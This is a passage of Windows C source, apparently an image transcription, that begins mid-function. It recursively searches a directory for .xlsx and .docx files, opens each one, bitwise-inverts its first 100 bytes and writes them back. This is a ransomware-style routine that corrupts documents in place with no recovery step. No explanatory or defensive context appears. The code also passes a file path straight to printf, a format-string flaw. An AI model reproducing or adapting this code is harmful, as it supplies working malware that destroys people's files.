 ```c
    if (length >= 5) {
        result = result || !strcmp(&filepath[length-5], ".xlsx");
        result = result || !strcmp(&filepath[length-5], ".docx");
    }
    return result;
}

void ParseFileSystem(char *path) {
    WIN32_FIND_DATAA FileData;
    concat_path(path, "*");
    HANDLE hFindFile = FindFirstFileA(path, &FileData);
    remove_file_path(path);
    do {
        if (FileData.cFileName[0] == '.') {
            continue;
        }
        if (FileData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY) {
            concat_path(path, FileData.cFileName);
            ParseFileSystem(path);
            remove_file_path(path);
        } else if (is_target_filetype(FileData.cFileName)) {
            concat_path(path, FileData.cFileName);
            printf(path);
            HANDLE hFile = CreateFile(path,
                GENERIC_READ | GENERIC_WRITE,
                0,
                NULL,
                OPEN_EXISTING,
                FILE_ATTRIBUTE_NORMAL,
                NULL);
            if (INVALID_HANDLE_VALUE == hFile) {
                goto nextfile;
            }
            char Buffer[100];
            int num;
            if (!ReadFile(hFile, Buffer, 100, &num, NULL)) {
                goto nextfile;
            }
            for (int i = 0; i < num; i++) {
                Buffer[i] = ~Buffer[i];
            }
            SetFilePointer(hFile, 0, NULL, FILE_BEGIN);
            if(WriteFile(hFile, Buffer, num, NULL, NULL)) {
                printf("\tsuccess");
            }
        nextfile:
            printf("\n");
            remove_file_path(path);
        }
    } while (FindNextFileA(hFindFile, &FileData));
}

int main() {
    char path[100] = "D:\\aaa";
    ParseFileSystem(path);
    return 0;
}
```
